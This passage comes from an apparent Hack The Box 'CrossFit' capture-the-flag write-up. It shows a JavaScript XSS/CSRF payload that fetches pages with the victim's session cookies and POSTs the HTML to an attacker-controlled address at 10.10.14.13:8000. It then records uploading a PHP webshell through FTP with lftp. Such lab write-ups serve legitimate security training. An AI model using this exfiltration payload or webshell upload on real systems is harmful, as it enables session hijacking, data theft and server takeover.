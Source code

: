 ```js
      })
      .then(response => response.text())
      .then(html => {
        return fetch('http://10.10.14.13:8000', {
          method: 'POST',
          credentials: 'include', 
          body: html,
        });
      });
    } else {
      fetch('http://10.10.14.13:8000/nocookie', {
        method: 'POST',
        credentials: 'include', 
      })
    }
  })
```

Setting `credentials` to `include` means I use the same session for everything. When this is run, the response tells me it worked:

![](../../../.gitbook/assets/htb-crossfit-image-9.png)

Using this, I can now login and  enumerate the FTP server:

![](../../../.gitbook/assets/htb-crossfit-image-10.png)

### FTP Write -> Webshell

From the above image, I can only write to `development-test`. This directory also includes all of the other web applications, and they are all in PHP. I cannot reach `development-test` from my machine, so I probably gotta use the XSS + CSRF exploit.

I tried uploading a PHP webshell which worked:

```
lftp test123@ftp.crossfit.htb:/development-test> put cmd.php
34 bytes transferred
```
